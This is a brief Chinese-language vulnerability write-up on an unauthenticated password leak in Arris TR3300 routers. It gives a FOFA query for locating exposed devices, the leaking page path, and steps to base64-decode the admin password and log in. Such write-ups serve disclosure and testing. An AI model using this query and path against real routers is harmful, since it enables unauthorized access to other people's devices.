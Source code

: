 # Arris TR3300路由器basic_sett存在未授权信息泄露漏洞

# 一、漏洞简介
Arris TR3300路由器basic_sett存在未授权信息泄露漏洞

# 二、影响版本
+ Arris路由器

# 三、资产测绘
+ fofa`body="base64encode(document.tF.pws.value)" || body="ARRIS TR3300"`
+ 特征

![1716312584374-f0336037-460d-4dea-906c-64bdfc4f4c2e.png](./img/teksQfdjF22G8qcp/1716312584374-f0336037-460d-4dea-906c-64bdfc4f4c2e-875869.png)

# 四、漏洞复现
```plain
/basic_sett.html
```

密码泄露：

![1716312848098-bd944f8e-fbeb-4124-8091-eef498dbb93f.png](./img/teksQfdjF22G8qcp/1716312848098-bd944f8e-fbeb-4124-8091-eef498dbb93f-941455.png)

base64解密后登录系统

![1716312869564-ba0d97cd-cf30-427f-a3f2-43bed255913d.png](./img/teksQfdjF22G8qcp/1716312869564-ba0d97cd-cf30-427f-a3f2-43bed255913d-659160.png)

![1716312948463-4d0f810a-8bc3-4ae0-983f-1a7ba7a195d3.png](./img/teksQfdjF22G8qcp/1716312948463-4d0f810a-8bc3-4ae0-983f-1a7ba7a195d3-124062.png)



> 更新: 2024-05-23 13:30:54  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bts33znxgp7g76vr>